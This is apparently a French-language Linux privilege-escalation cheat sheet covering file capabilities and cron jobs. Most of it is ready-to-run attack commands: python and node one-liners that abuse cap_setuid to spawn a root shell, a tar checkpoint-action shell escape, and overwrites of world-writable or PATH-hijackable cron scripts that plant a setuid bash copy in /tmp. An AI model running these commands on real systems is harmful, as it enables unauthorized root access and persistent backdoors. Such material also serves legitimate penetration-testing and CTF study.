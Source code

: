 ## 🎯 Capabilities Linux

### Recherche de capabilities
```bash
# Lister toutes les capabilities
getcap -r / 2>/dev/null

# Capabilities communes dangereuses
# CAP_SETUID - Peut changer UID
# CAP_DAC_OVERRIDE - Bypass permissions fichiers
# CAP_SYS_ADMIN - Privilèges administrateur
```

### Exploitation via capabilities
```bash
# python avec cap_setuid
python -c "import os; os.setuid(0); os.system('/bin/bash')"

# tar avec cap_dac_override
tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

# node avec cap_setuid
node -e "process.setuid(0); require('child_process').spawn('/bin/bash', {stdio: [0,1,2]})"
```

## ⏰ Tâches Cron et Services

### Énumération des tâches cron
```bash
# Tâches cron système
cat /etc/crontab
ls -la /etc/cron*
crontab -l                     # Tâches utilisateur

# Monitoring des tâches
# Installer pspy ou surveiller avec:
ps aux | grep -v "]"           # Répéter pour voir nouveaux processus
```

### Exploitation de tâches cron
```bash
# Script cron world-writable
ls -la /path/to/cron/script
echo '#!/bin/bash\ncp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /path/to/script

# PATH manipulation dans cron
# Si PATH non absolu dans crontab:
echo '#!/bin/bash\ncp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /tmp/command
chmod +x /tmp/command
```
